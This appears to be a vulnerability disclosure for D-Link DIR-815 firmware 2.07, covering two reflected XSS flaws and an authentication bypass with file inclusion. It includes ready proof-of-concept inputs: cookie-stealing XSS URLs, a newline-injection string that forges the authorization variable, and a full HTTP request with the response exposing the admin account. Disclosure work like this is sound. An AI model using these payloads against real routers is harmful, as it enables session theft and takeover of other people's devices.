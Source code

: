 ### Production Description

- Product Page : DIR-815
- Firmware Version : 2.07 (DIR-815_REVB_FIRMWARE_PATCH_2.07.B01) 
- Hardware Version : N/A

### Vulnerabilities Summary

There are several vulnerabilities :

1. **Xss**
2. **Permission bypass** 
3. **Information disclosure**.

### Details - WAN && LAN - revB - XSS(CVE-2018-10107,CVE-2018-10108)

An attacker can use the XSS to target which is an authenticated user in order to steal the authentication cookies.

1. /htdocs/webinc/js/bsc_sms_inbox.php   line: 17

   ```php
   [..]
   var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';
   [..]
   ```

   The parameter  **$_GET["Treturn"]** has no filter.So the poc:

   ```http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)//```

2. /htdocs/webinc/js/info.php line:27 -30

   ```php
   [..]
   		$title	= "ACTION ".$_GET["RESULT"];
   		if($_GET["REASON"]=="ERR_REQ_TOO_LONG")
   		{
   			$message = "'".i18n("The action requested failed because the file uploaded too large.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
   		}
   		echo "\t\tvar msgArray = [".$message."];\n";
   		echo "\t\tBODY.ShowMessage(\"".$title."\", msgArray);\n";
   ?>  },
   [..]
   ```

   The parameter  **$_GET["RESULT"]** has the same problem as the last one,So the poc:

   ```http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//```

### Details - WAN && LAN - revB - Permission bypass&Information disclosure(CVE-2018-10106)

1. **Permission bypass**

   I found some files or some functions only can be accessed by power user,such like:

   /htdocs/web/getcfg.php  line:83-94

   ```php
   function is_power_user()
   {
   	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
   	{
   		return 0;
   	}
   	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
   	{
   		return 0;
   	}
   	return 1;
   }
   ```

   We can see the ```$_GLOBALS["AUTHORIZED_GROUP"]``` need to be greater than 0 and not a null.

   Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in ```$_GET, $_POST and $_SERVER``` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

   Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

   ```xxx=%0a_POST_AUTHORIZED_GROUP%3d1```

2. **Information disclosure**

   /htdocs/web/getcfg.php  line:94-147

   ```php
   if ($_POST["CACHE"] == "true")
   {
   	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
   }
   else
   {
   	if(is_power_user() == 1)
   	{
   		/* cut_count() will return 0 when no or only one token. */
   		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
   		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
   		$SERVICE_INDEX = 0;
   		while ($SERVICE_INDEX < $SERVICE_COUNT)
   		{
   			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
   			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
   			if ($GETCFG_SVC!="")
   			{
   				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
   				/* GETCFG_SVC will be passed to the child process. */
   				if (isfile($file)=="1")
   				{
   					if(get("", "/runtime/device/sessions_privatekey")==1)
   					{
   						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
   						dophp("load", $file);
   						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
   					}
   					else
   					{	dophp("load", $file);}
   				}
   			}
   			$SERVICE_INDEX++;
   		}
   	}
   	else
   	{
   		/* not a power user, return error message */
   		echo "\t<result>FAILED</result>\n";
   		echo "\t<message>Not authorized</message>\n";
   	}
   }
   ```

   We can see ```dophp("load", $file)```, the function like a ``include()`` .

   The  variable **$file ** is made up of  **$GETCFG_SVC**, then **$GETCFG_SVC** comes from ```$_POST["SERVICES"]```, there is also no filter,so we can control the variable **$file **, and the permission validation ```is_power_user()```  can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like **DEVICE.ACCOUNT.xml.php**, it returns a username and password to a router,then we can login in the router.

3. **Proof of concept:**

   The http request:

   ```http
   GET /getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1 HTTP/1.1
   Host: 192.168.0.1
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:50.0) Gecko/20100101 Firefox/50.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Connection: close
   Upgrade-Insecure-Requests: 1
   ```

   the response:

   ```http
   HTTP/1.1 200 OK
   Server: Linux, HTTP/1.1, DIR-815 Ver 2.07
   Date: Sat, 01 Jan 2000 09:32:01 GMT
   Connection: close
   Content-Type: text/xml
   Content-Length: 646

   <?xml version="1.0" encoding="utf-8"?>
   <postxml>
   <module>
   	<service>DEVICE.ACCOUNT</service>
   	<device>
   		<gw_name>DIR-815</gw_name>
   		<account>
   			<seqno></seqno>
   			<max>1</max>
   			<count>1</count>
   			<entry>
   				<uid></uid>
   				<name>Admin</name>
   				<usrid></usrid>
   				<password></password>
   				<group>0</group>
   				<description></description>
   			</entry>
   		</account>
   		<group>
   			<seqno></seqno>
   			<max></max>
   			<count>0</count>
   		</group>
   		<session>
   			<captcha>0</captcha>
   			<dummy></dummy>
   			<timeout>180</timeout>
   			<maxsession>128</maxsession>
   			<maxauthorized>16</maxauthorized>
   		</session>
   	</device>
   </module>
   </postxml>
   ```

   ​